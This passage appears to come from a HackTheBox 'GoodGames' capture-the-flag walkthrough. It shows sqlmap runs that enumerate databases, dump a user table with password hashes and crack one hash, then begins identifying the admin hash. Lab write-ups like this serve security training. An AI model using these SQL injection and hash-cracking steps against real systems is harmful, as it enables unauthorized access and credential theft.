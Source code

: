 ```bash
information_schema
[19:42:00] [INFO] retrieved: main
available databases [2]:
[*] information_schema
[*] main
...

┌──(root㉿shiro)-[/home/shiro/HackTheBox/GoodGames]
└─# sqlmap -r login_request.txt --batch -D main --tables
...
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[19:44:36] [INFO] adjusting time delay to 1 second due to good response times
3
[19:44:36] [INFO] retrieved: blog
[19:44:51] [INFO] retrieved: blog_comments
[19:45:28] [INFO] retrieved: user
Database: main
[3 tables]
+---------------+
| user          |
| blog          |
| blog_comments |
+---------------+
...

┌──(root㉿shiro)-[/home/shiro/HackTheBox/GoodGames]
└─# sqlmap -r login_request.txt --batch -D main -T user --dump
...
do you want to use common password suffixes? (slow!) [y/N] N
[19:54:31] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[19:54:31] [INFO] starting 4 processes 
[19:54:36] [INFO] cracked password 'password' for hash '5f4dcc3b5aa765d61d8327deb882cf99'                            
Database: main                                                                                                       
Table: user
[2 entries]
+----+-------+---------------------+---------------------------------------------+
| id | name  | email               | password                                    |
+----+-------+---------------------+---------------------------------------------+
| 1  | admin | admin@goodgames.htb | 2b22337f218b2d82dfc3b6f77e7cb8ec            |
| 2  | shiro | shiro@gmail.com     | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
+----+-------+---------------------+---------------------------------------------+
...
```

Awesome~ We have the admin password hash! Lets identify the hash and try to brute-force it.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/GoodGames]
└─# hash-identifier         
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
```